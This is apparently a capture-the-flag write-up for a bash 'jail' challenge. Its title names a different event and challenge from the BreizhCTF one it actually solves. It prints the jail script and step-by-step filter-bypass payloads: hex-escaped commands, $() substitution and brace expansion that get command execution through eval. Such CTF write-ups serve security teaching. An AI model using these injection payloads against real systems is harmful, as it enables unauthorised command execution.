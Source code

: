#Insomni'hack CTF 2016 : PCAPBleeding

**Category:** JAIL |
**Points:** 300 |
**Solves:** 7% |
**Description:** 

> BASHJAIL



---

##Code and Write-up

Here is the code :

```bash
#!/bin/bash
. /home/game/.omg

_start(){
    echo "Hi. U got $TIME second(s) to do this. Don't fap"
    sleep "$TIME"
    _quit
}

_quit(){
    echo -e '\n\033[0;31mA breton is faster than u. Bye\033[0m'
    kill -9 "$PID" &>/dev/null
    exit
}

_trapped(){
    kill "$sPID"
    local TIME="$((RANDOM%1337))"
    echo -e "Poor guyz. U wanna leave this GAME ?\nStay with me for "$TIME"s <3.\nTake a drink? For milk, ask @saxx. For beer, ask @kaluche"
    sleep "$TIME"
}


_is_hacker_or_breton(){
        [[ $1 == *[02abcdefghijklmnopqrstuvwyzABDEFGHIJKLMNOPQRSTUVWXYZ';''&'' ''"''*''`''?''.''<''>']* ]] && return 0
        return 1
}

PID="$$"
echo "PIIIID : $PID"
trap _trapped SIGINT SIGTERM
TIME=5 ; _start & sPID="$!" ; sleep 0.01

while true; do
    echo -ne "\033[32mEnter a cmd > \033[0m"
    read cmd
    _is_hacker_or_breton "$cmd" && {
            echo -e '\033[0;31mDont hack me !\033[0m'
            exit 1
        } || {
            out="echo Your command is: $cmd"
            eval "$out"
    }
done
```

Here, the .omg file : [.omg](https://github.com/notfound-404/BREIZHCTF2K16/)

The first thing to do, was to ^c to kill the timeout, and to get a small sleep.
You can see it's RANDOM.

```
Poor guyz. U wanna leave this GAME ?
Stay with me for 1182s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 881s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 906s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 600s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 8s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
```

Well, 8s is quiet small.
Now, you can easily find unfiltered chars, by testing them manually.
The following wasn't filtered :

```
Enter a cmd > $'x13456789{}()\\
Enter a cmd >
```

Knowing that, and knowing a little bash, you can try a `ls` :

```
Enter a cmd > $'\\x6C\\x73'
Your command is: ls
```

Ok, the command is not filtered but not executed ...
Well, try to executed is using `$(cmd)`

```
Enter a cmd > $($'\\x6C\\x73')
Your command is: flag jail.sh
```

Good, the command was executed.
You can see 2 files, `flag` and `jail.sh`

Let's try to `cat flag` :
```
Enter a cmd > $($'\\x63\\x61\\x74\\x20\\x66\\x6C\\x61\\x67')
Dont hack me !
```

Oh, right. `\\x20` contains filtered chars.<br>
If you were stuck here, you just had to Google : `bash commands without spaces`<br>
(https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/)

An example :

```bash
jonojono@apollo ~ $ {echo,hello,world}
hello world
```

We know that `{}` are not filtered, let's try this :
```
Enter a cmd > $({$'\\x63\\x61\\x74',$'\\x66\\x6C\\x61\\x67'})
Your command is: BRZHCTF{...}
```


<br>
Pwned.<br>
__Flag__ : BRZHCTF{Yes_I_allow_u_to_hate_me...I_am_Notfound_and_I_love_b4sh.I_also_love_long_flag,saxxounette_and_kalouchi_and_the_others_trollz}

Small asciicast : <br>
[![Alt text for your video](http://pix.toile-libre.org/upload/original/1462182542.png)](https://asciinema.org/a/enbpmktycn237ecslojre4f4q#)

Enjoy,<br>
\- [Notfound](https://www.notfound.ovh)

